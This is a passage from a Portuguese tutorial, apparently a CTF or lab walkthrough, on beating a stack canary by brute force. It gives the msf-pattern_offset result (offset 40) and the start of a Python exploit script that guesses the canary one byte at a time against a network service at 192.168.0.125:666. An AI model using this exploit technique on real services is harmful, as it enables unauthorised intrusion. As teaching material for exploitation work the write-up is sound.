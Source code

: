 Analisando o *breakpoint*, pode-se verificar que a instrução anterior enviou para **RAX** o valor que está em `[rbp-0x8]`, ou seja, o valor do *Canary* que está logo antes do **RBP**.
Isso significa que o valor de **RAX** neste momento, é o ponto onde o *ciclic pattern* sobrescreveu o *Canary*, e é justamente este valor que será utilizado para consulta de offset no `msf-pattern_offset`:

```
$ msf-pattern_offset -l 100 -q 0x3562413462413362
[*] Exact match at offset 40
```

O *offset* para atingir o *Canary* é de 40 bytes, o que segnifica que se for enviado um *buffer* maior que este, a partir do quadragésimo primeiro byte, o *Canary* começa a ser sobrescrito. Esta informação abre brecha para ser utilizado o *brute force*.

#### Brute force do Canary:
Conforme se sabe, o *Canary* é uma sequência de 8 bytes aleatória que é gerada cada vez que o programa é executado, e que se um único byte for sobrescrito, o programa pára sua execução e volta para o início.

Porém, enquanto o programa não for finalizado, o valor do *Canary* continua o mesmo. Exemplificando, pode-se imaginar que o *Canary* tenha o valor de `"\x07\x06\x05\x04\x03\x02\x01\x00"`, caso seja enviado um *buffer* de 40 bytes, mais o byte `"\x0a"`, o *Canary* ficará com o valor de `"\x07\x06\x05\x04\x03\x02\x01\x0a"`, ou seja, o programa pára a função e não retorna a mensagem `"Valeu!"`, conforme visto na enumeração.
Isso significa, que pode-se enviar continuamente 40 bytes, mais 1 byte qualquer, e monitorar a resposta até obter a palavra `"Valeu!"` do programa. A partir deste ponto, começa-se a enviar 40 bytes do *buffer*, mais o byte que resultou na resposta esperada, mais um novo ciclo de tentativas.
Seguindo esta idéia, o esboço inicial do exploit fica como abaixo:

```python
$ cat exploit.py 
#!/usr/bin/python3


import socket
from struct import pack,unpack
from telnetlib import Telnet

#definindo alvo e funcoes
target = ("192.168.0.125", 666)
p64 = lambda x: pack("Q",x)
u64 = lambda x: unpack("Q",x)

#funcao que fara o Brute Force
def bruteforce(payload):
        for i in range(256):
                next_byte = 0x01 * i
                next_byte = bytes([next_byte])

                tmp_payload = payload + next_byte

                p.send(tmp_payload)
                p.recv(1024)
                output = p.recv(1024)
                if b"Valeu!" in output:
                        print(f"[+] Byte encontrado: {hex(i)}")
                        return next_byte
                if i == 255:
                        print("[-] Erro ao encontrar o proximo byte!")
                        exit()

#Offset para atingir o Canary
offset = b"A" * 40
#Valor para sobrescrever RBP
rbp = b"B" * 8
```